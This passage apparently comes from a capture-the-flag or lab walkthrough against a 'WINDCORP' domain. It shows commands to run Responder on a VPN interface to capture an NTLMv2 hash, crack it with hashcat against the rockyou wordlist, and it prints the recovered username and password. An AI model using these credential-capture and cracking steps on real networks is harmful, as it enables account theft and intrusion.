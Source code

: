 - Run Responder
  
```bash
sudo responder -I tun0

```
- And:

![image38](../resources/6dd9dc0585bd45968c2105f289a7fdda.png)

- Stored in Responder/logs directory

- Copy the NTLMv2 hash to a file (ntlmhash)

- Crack with hashcat:
  
```bash
hashcat -m 5600 -a 0 ntlmhash /usr/share/wordlists/rockyou.txt

```

![image39](../resources/935e6c854d464e8993e02c82685b3129.png)

Got credentials:

WINDCORP\\**edwardle : !Angelus25!**
